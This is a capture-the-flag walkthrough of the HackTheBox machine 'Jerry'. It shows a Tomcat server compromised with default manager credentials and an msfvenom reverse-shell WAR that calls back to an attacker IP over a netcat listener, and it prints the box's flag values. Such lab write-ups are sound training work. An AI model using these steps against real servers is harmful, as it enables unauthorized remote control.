



# Jerry

Author: Ewaël

**Jerry** is an easy HackTheBox box by mrh4sh.

`nmap -sC -sV -oN nmap 10.10.10.95 -v -A` shows that only port 8080 is open. It is an Apache Tomcat server.

When trying to log in, the fail page suggests to use default creds `tomcat:s3cret`, which allow me to log as `Manager`.

After trying the Tomcat RCE via JSP Upload Bypass exploit, I start searching if I can exploit the WAR file upload, and I decide to follow this link:

[https://www.hackingarticles.in/multiple-ways-to-exploit-tomcat-manager](https://www.hackingarticles.in/multiple-ways-to-exploit-tomcat-manager)

I start creating my backdoor with `msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.34 LPORT=4444 -f war > shell.war`, then I upload it and visit `/shell` after starting netcat with `nc -lvnp 4444`, which indeed pops a shell as `authority\system`.

Both user and root flag are located in `C:\Users\Administrator\Desktop\flags`:

- User: `7004dbcef0f854e0fb401875f26ebd00`
- Root: `04a8b36e1545a455393d067e772fe90e`
